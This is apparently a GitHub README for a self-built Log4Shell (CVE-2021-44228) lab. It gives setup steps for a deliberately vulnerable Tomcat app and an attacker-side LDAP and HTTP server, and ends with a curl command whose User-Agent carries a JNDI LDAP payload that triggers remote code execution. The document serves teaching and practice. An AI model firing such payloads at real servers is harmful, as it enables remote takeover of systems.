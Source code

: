 # log4j-playground

This is standalone Log4j playground I developed as a semester project to exploit CVE-2021-44228. I found numerous setups, but they all were docker containers and I wanted to build something from scratch. So feel free to use it, modify it, or let me know if there's any issue. Have fun [safely]!

## Core Requirements:
1) Ubuntu Server (LTS)
2) Apache Tomcat 7.0.99
3) Log4j 2.12.0
4) JDK 7u80

We have a simple web application hosted on our Tomcat server solely for the functional purpose (there's no aesthetics :)) to emulate real-world webapp. And when someone enters some text, their input, as well as their user-agent gets logged by log4j for analysis (it's original purpose), and this is what we will exploit by requesting to [our] attacker-controlled LDAP server to provide remote codebase and make the server fetch it and execute it. On kali, spin a LDAP and an HTTP server to provide this codebase and BOOM! We can execute code remotely on the Ubuntu server!

All the files for the Ubuntu-server is in the `mywebapp` folder, and the files required to exploit is in the `ldap-server` folder.


## Vulnerable Ubuntu Server

1) To set-up the server, download Apache Tomcat and set it up in a system folder (ideally). I saved mine as `/opt/apache-tomcat`
2) Then go into the webapp folder and compile our simple web application using the following command
```shell
javac -cp ".:WEB-INF/lib/*" -d WEB-INF/classes/ src/main/java/com/example/LogExampleServlet.java  -nowarn
```

4) Then copy and paste the whole folder in your `/PATH/TO/apache-tomcat/webapps/` folder
```shell
cp -r mywebapp /PATH/TO/apache-tomcat/webapps/
```

And this should load the webpage on `http://ubuntu-server:8080/mywebapp/index.jsp` if you check. And this is all there is to the vulnerable machine set-up!


Note: Idk but on initial testing, it wasn't seem to work, and I had to create a .war file and place it in my `webapps` folder. So you can see if the above steps also work for you or not. But if not, try the below (I am not a JAVA programmer, so don't ask me).
```shell
jar cvf mywebapp.war *
cp mywebapp.war ../
```

## Attacker Machine

### Payload

For our actual malicious code, compile the `Evail.java` file using the same vulnerable jdk version present in ubuntu (ie 7u80) (makes sense right?) using the following code.

```Shell
/PATH/TO/jdk1.7.0_80/bin/javac Evail.java -Xlint:deprecation
```

### LDAP Server 
For the LDAP Server, we download the LDAP library from [official LDAP site](https://ldap.com/unboundid-ldap-sdk-for-java/ "UnboundID LDAP SDK for Java") and compile our Server file and execute it.
```shell
javac -cp .:/opt/unboundid-ldapsdk-7.0.0/unboundid-ldapsdk.jar Server
java -cp .:/opt/unboundid-ldapsdk-7.0.0/unboundid-ldapsdk.jar Server
```
And on other terminal window, we spin our python server
```shell
python -m http.server 8000
```

### Exploit

Now the only step left to send our payload and let the whole process unfold.
```shell
curl ubuntu-server:8080/mywebapp/logExample -H 'User-Agent: ${jndi:ldap://192.168.56.101:9999/Evail}' 
```
